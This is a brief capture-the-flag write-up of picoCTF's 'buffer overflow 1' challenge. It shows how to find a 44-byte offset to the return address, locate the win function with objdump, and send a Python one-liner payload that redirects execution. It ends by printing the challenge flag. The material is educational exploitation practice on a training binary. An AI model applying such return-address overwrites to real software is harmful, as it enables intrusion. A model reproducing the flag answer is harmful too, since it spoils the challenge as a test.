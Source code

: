 > buffer overflow 1 - Points: 200 - (Solves: 429)
> Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this program? You can find it in /problems/buffer-overflow-1_4_9d46ad1b74894db5d4831b91e19ee709 on the shell server. Source.

We see that the buffer is of size 32.

We start at 32 and try to see when we hit the return address by gradually incrementing the number of input by 4 bytes each time.

At offset 44 we hit the start of the return value:
```
$ ./buf-of-2 < <(python -c "print 'A'*44 + 'B'*4")
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x42424242
Segmentation fault (core dumped)
```

This means that our offset is 44.

We get the address of the win function using `objdump`:
```
% objdump -d vuln | grep \<win\>
080485cb <win>:
```

We convert it to little endian format and add our offset to create our exploit.

```
% ./vuln < <(python -c "print 'A'*44 + '\xcb\x85\x04\x08'")
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asyd69e032d}Segmentation fault
```

Flag: `picoCTF{addr3ss3s_ar3_3asyd69e032d}`
